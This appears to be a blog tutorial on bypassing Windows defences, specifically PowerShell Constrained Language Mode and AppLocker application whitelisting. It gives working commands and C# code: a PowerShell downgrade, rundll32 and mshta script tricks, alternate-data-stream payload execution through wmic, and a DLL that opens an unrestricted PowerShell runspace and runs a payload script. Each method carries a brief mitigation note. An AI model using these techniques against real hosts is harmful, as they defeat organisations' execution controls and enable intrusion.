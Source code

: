 # Exploring Ways Around Windows Security Measures

#### Foreword

The security team working on Microsoft Windows have a number of options available for Domain Administrators attempting to lock down an Active Directory environment. This is primarily accomplished through Group Policy Objects (GPOs) that restrict what a normal user can do on a given host, which propogate throughout the domain. Two of the most common measures taken by network owners is the use of AppLocker and restricted PowerShell sessions. The question then, is how might an attacker bypass these measures?

Please note the Microsoft Windows Security team does not consider any of these measures full restrictions, only ways to mitigate a given threat model. It should also be noted that all of these methods are open source and public knowledge, and thus it should be expected that any attacker on a network is capable of the following.

-----

### Restricted PowerShell - Constrained Language Mode (CLM)

As previously mentioned, one of the primary mitigations taken by network owners is restriction of what a powershell session can accomplish. Constrained Language Mode dissallows things such COM objects, many .NET objects, classes, an many other tools an attacker might find useful. Specifically, this mitigates the threat of someone in the organization becoming a codez kiddie and using open source tools such as [Kerberoast](https://github.com/EmpireProject/Empire/blob/master/data/module_source/credentials/Invoke-Kerberoast.ps1) or [Mimikatz](https://github.com/clymb3r/PowerShell/blob/master/Invoke-Mimikatz/Invoke-Mimikatz.ps1) against the host or network to escalate privileges and wreak havoc in the organization.

#### Method 1.1: Easy wins

The first method is of course to try the simple things, such as... 

... a PowerShell downgrade to version 2,

```
C:\> powershell.exe -version 2
```

... creating a new runspace with COM objects, 

```
New-Object -ComObject WScript.Shell
```

... using a flaw in older `rundll32.exe` versions,

```
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write("Hello from JS :D");
```

... or even doing [path manipulation](https://oddvar.moe/2018/10/06/temporary-constrained-language-mode-in-applocker/).

However, these are easily mitigated by uninstalling older versions of powershell, dissallowing more commands in PoSh sessions, and enforcing a standard path for all environments that cannot be changed. Easy to fix means likely to have been mitigated, so time to move on.

#### Method 1.2: Writing CODE?! :scream:

So the host is a little more hardened than you expected. Time to get your hands dirty in Visual Studio and start utilizing the .NET Framework to your advantage. Since Portable Executables can be compiled with all their dependencies, we can leverage libraries such as `System.Management.Automation` to create a new powershell runspace.

```c#
using System;
using System.Runtime.InteropServices;
using System.Collections.Generic;
using System.Linq;
using System.Text;


namespace CLMBypass
{
    public class CLMBypass
    {
        public void Main(string arg)
        {
            System.Management.Automation.Runspaces.Runspace run = System.Management.Automation.Runspaces.RunspaceFactory.CreateRunspace();
            run.Open();

            System.Management.Automation.PowerShell shell = System.Management.Automation.PowerShell.Create();
            shell.Runspace = run;

            shell.AddScript(arg);
            shell.Invoke();

            run.Close();
        }
    }
}
```

Compiling this while referencing the _proper version_ of `System.Management.Automation.dll` (if you are compiling for older .NET Framework versions such as 4.0, you'll need to manually reference this library instead of using NuGet) allows for creating of a new runspace under a different [Runspace](https://docs.microsoft.com/en-us/dotnet/api/system.management.automation.runspaces.runspace?view=pscore-6.2.0). This allows you to interact directly with the "engine" PowerShell runs on, instead of using a host application such as `powershell.exe`. Thus, the restrictions to `powershell.exe` are not applied!

Unfortunately, its rarely this easy. Since the above solution must be compiled, it is easily stopped by enforcing AppLocker on a host and restricting which executables can be ran. Which brings us to round two, bypassing App White Listing!

### AppLocker and App White Listing (AWL)

All that work that was put into writing a whole _twenty-five_ lines of code was just thwarted... the _horror_. Don't fret though, there are still many ways around AppLocker, as long as it is not too restrictive. More on that later in the conclusion.

#### Method 2.1: _More_ easy wins

The easiest way for an attacker to bypass AppLocker is just based off of poor configuration of the host. The rule of thumb here is if (almost) any directory under `C:\Windows\` is writeable and the GPO is only checking the filepath to verify an executable, then an easy win is simply copying the desired payload over to the writeable directory. Another easy win is [Alternate Data Streams](https://hitco.at/blog/howto-prevent-bypassing-applocker-using-alternate-data-streams/) and execution through the beloved `wmic`...

```
C:\> type C:\path\to\payload.exe > C:\Program Files (x86)\SomeApp\logs:payload.exe
C:\> wmic process call create '"%CD%\logs:payload.exe"'
```

But as previously mentioned, these are easily restricted and often are not enough, we want something more robust.

#### Method 2.2: JavaScript shenanigans

Well, as it turns out, Microsoft Windows loves to be backwards compatible. This means including a lot of binaries that do not get used very often, including `mshta.exe` which is part of the [deprecated](https://www.microsoft.com/en-us/windowsforbusiness/end-of-ie-support) Internet Explorer. If the GPO does not block using scripts, it is easy enough to use [DotNetToJScript](https://github.com/tyranid/DotNetToJScript) to JavaScript-ify an executable by creating serialized data, encoding it in base64, and then deserializing it and running it after being "formatted" as a binary.

```js
var stm = base64ToStream(serialized_obj);
var fmt = new ActiveXObject('System.Runtime.Serialization.Formatters.Binary.BinaryFormatter');
var al = new ActiveXObject('System.Collections.ArrayList');
var d = fmt.Deserialize_2(stm);
al.Add(undefined);
var o = d.DynamicInvoke(al.ToArray()).CreateInstance(entry_class);
```

This script can be tagged an ran in a `.hta` file by `mshta.exe`, resulting in the execution of the binary. With a little extra work you can even pass arguments!

Again, this is mitigated quite easily by disabling the execution of scripts on the host. This mitigation eliminates almost all attack vectors that utilize JavaScript or Visual Basic.

#### Method 2.3: DLL's are basically EXE's, right?

If nothing has worked up until this point, it's likely there is a fairly strick AppLocker policy in place. However, there is one last relatively easy to use hole in configuration. When configuring AppLocker, there is an option to restrict the DLLs that can be run on a host to only certain ones, such as those in `C:\Windows\` or `C:\Program Files\`. However, because this can induce quite a large performance hit depending on what software is being run, many network administrators do not enforce this rule. This opens up a vector of attack.

In the end, Dynamically Linked Libraries are still executable binaries, they just don't have certain characteristics of PEs, such as entry points, their own process, or threads. However, for whatever reason, there exists `rundll32.exe` that calls a specified entrypoint, expecting certain parameters. More information on this can be found [here](https://support.microsoft.com/en-us/help/164787/info-windows-rundll-and-rundll32-interface). If a function is constructed with the correct arguments and is made visible via [DllExport](https://github.com/3F/DllExport), then it is possible to call and pass arguments to a DLL with `rundll32.exe`.

```c#
using System;
using System.Runtime.InteropServices;

namespace CLMBypass
{
    class Program
    {
        [DllExport("Run", CallingConvention = CallingConvention.StdCall)]
        public static void Run(IntPtr hwnd, IntPtr hinst, string lpszCmdLine, int nCmdShow)
        {
            System.Management.Automation.Runspaces.Runspace run = System.Management.Automation.Runspaces.RunspaceFactory.CreateRunspace();
            run.Open();

            System.Management.Automation.PowerShell shell = System.Management.Automation.PowerShell.Create();
            shell.Runspace = run;

            shell.AddScript(lpszCmdLine);
            shell.Invoke();

            run.Close();
        }
    }
}
```

The above code, once compiled as a class library, can be used as such...

```
C:\> rundll32.exe C:\path\to\payload.dll,Run "IEX(Get-Content('payload.ps1'))"
```

This will execute payload.ps1 in a different runspace than the one created by the DLL.

The blocking mechanism for this is of course to limit what DLLs can be run on the host, but as previously mentioned, this is not often implemented due to the fear of performance reduction.

If the DLLs are restrictied, team blue has successfully mitigated most if not all of the _easy_ paths to unrestricted execution on the host. 
<br><br>
<div style="text-align:center">

**Enumerate and get creative!**

cheers!

stonepresto
</div>